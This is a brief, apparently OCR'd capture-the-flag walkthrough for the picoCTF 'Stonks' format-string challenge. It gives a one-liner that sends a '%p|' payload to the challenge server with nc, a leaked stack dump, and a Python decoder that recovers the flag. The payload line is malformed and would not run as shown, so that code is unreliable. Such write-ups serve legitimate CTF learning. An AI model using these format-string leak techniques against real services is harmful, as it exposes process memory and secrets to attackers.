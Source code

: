 # Stonks
I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure!
vuln.c nc mercury.picoctf.net 33411


## Walkthru
Compiling with gcc shows you where the vulnerability is.

```shell
python -c 'print 1; print 40 " "%p|"' | nc mercury.picoctf.net 33411
```

```python
s= '99f83f0|804b000|80489c3|f7f22d80|ffffffff|1|99f6160|f7f30110|f7f22dc7|0|99f7180|2|99f83d0|99f83f0|6f636970|7b465443|306c5f49|345f7435|6d5f6c6c|306d5f79|5f79336e|63343261|36613431|ffb2007d|f7f5daf8|f7f30440|f3e05200|1|0|f7dbfce9|f7f310c0|f7f225c0|f7f22000|ffb2a348|f7db068d|f7f225c0|8048eca|ffb2a354|0|f7f44f09|804b000'
res = ''
for i in s.split('|'):
	if len(i) == 8:
		a = bytearray.fromhex(i)
		for b in reversed(a):
			if b > 32 and b < 128:
				res += chr(b)
print(res)
```
